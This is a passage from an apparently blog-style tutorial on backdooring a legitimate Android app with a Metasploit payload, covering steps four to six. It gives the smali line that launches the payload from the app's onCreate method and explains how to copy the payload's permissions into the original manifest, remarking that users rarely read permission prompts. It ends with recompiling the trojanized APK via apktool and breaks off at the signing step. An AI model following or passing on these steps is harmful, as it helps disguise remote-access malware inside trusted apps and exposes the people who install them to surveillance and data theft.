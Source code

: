 ![Screenshot from 2015-12-19 19:06:17](https://techkernel.files.wordpress.com/2015/12/screenshot-from-2015-12-19-190617.png)

Now search for the following line in the smali code [using CTRL+F] -

    
    ;->onCreate(Landroid/os/Bundle;)V


When you locate it, paste the following code in the line next to it -

    
    invoke-static {p0}, Lcom/metasploit/stage/Payload;->start(Landroid/content/Context;)V


What we are doing here is, inserting a code which starts the payload alongside the existing code which is executed when the activity starts. Now, save the edited smali file.


### STEP 5: INJECT THE NECESSARY PERMISSIONS:


From developer.android.com -

Additional finer-grained security features are provided through a "permission" mechanism that enforces restrictions on the specific operations that a particular process can perform.

If we do not mention all the additional permissions that our payload is going to need, it cannot function properly. While installing an app, these permissions are shown to the user. But most of the users don't care to read all those boring texts, so we do not have to worry about that much.

These permissions are also listed in the previously encountered AndroidManifest file. So let's open the AndroidManifest.xml of both the original app and the payload from the respective folders. The permissions are mentioned inside <uses-permission> tag as an attribute 'android:name'. Copy the additional permission lines from the Payload's AndroidManifest to the original app's one. But be careful that there should not be any duplicate.

Here's my original app's AndroidManifest before editing -![Screenshot from 2015-12-19 19:37:12](https://techkernel.files.wordpress.com/2015/12/screenshot-from-2015-12-19-193712.png)

After adding the additional ones from the Payload's AndroidManifest, my /root/original/AndroidManifest.xml looks like this - ![Screenshot from 2015-12-19 19:42:48](https://techkernel.files.wordpress.com/2015/12/screenshot-from-2015-12-19-194248.png)


### STEP 6: RECOMPILE THE ORIGINAL APK:


Now th hard parts are all done! We just have to recompile the backdoored app into an installable apk. Run the following command -

    
    apktool b /root/original


![Screenshot from 2015-12-19 20:14:31](https://techkernel.files.wordpress.com/2015/12/screenshot-from-2015-12-19-201431.png)

You will now have the compiled apk inside the "/root/original/dist" directory. But, we're still not done yet.


### STEP 7: SIGN THE APK:
